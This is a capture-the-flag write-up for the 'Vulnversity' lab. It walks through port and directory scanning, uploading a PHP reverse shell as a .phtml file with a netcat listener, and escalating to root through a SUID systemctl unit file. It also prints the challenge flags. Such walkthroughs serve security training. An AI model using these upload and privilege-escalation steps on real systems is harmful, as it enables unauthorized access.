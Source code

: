 ```yaml
---
title: Vulnversity
created: '2020-05-10T16:09:08.192Z'
modified: '2020-05-10T21:58:37.303Z'
---
```


# Vulnversity

Perform a port scan

```
nmap -sV <IP>
```

Port **3333** cotains an HTTP web application

Scan the web application to find files and folders

```
gobuster -u http://<IP>:3333 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50 -e
```

There is a path to upload files to the web application

```
http://<IP>:3333/internal/
```

Testing for extensions of files allowed to be uploaded with Burp Intruder, we can identify that **.phtml** files are accepted.

Download a PHP reverse shell:
[Pentestmonkey - Reverse PHP Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

Edit the shell to include your local IP address and port (where netcat will be listening)

```
$ip = '127.0.0.1';
$port = 1234;
```

Upload the shell to the web application and use netcat to listen to the port specified in the shell

```
nc -lvp <port>
```

Access the path where the shell was uploaded on the web application to execute the PHP code in the reverse shell

```
http://<IP>:3333/internal/uploads/<path-to-shell>
```

User flag is found at /home/bill/user.txt

`8bd7992fbe8a6ad22a63361004cfcedb`

Search for files with the SUID bit enabled starting on / and redirect the errors to /dev/null

```
find / -perm /4000 2>/dev/null
find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
```

The **/bin/systemctl** executable has the SUID bit set

We can abuse it to elevate privileges.

[GTFOBins - Systemctl](https://gtfobins.github.io/gtfobins/systemctl/)

Systemd initializes user space components that run after the Linux kernel has booted, as well as continuously maintaining those components throughout a system’s lifecycle. These tasks are known as units, and each unit has a corresponding unit file. We can create our own unit file and let systemd start it. Normally systemctl will look for unit files in the default folder, which is /etc/system/systemd. But we don’t have the permission to write to that folder. Instead, we can use an environment variable that will read the contents of **/root/root.txt** and write its output to **/tmp/output** file.

First we create a variable which holds a unique file.

```
eop=$(mktemp).service
```

Then we create an unit file and write it into the variable.

```
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $eop
```

Inside the unit file we entered a command which will let shell execute the command cat and redirect the output of cat to a file called output in the folder tmp. And finally we use the /bin/systemctl program to enable the unit file.

```
/bin/systemctl link $eop
/bin/systemctl enable --now $eop
```

Finally we read the contents of the file **/etc/output**

`a58ff8579f0a9270368d33a9966c7fd5`

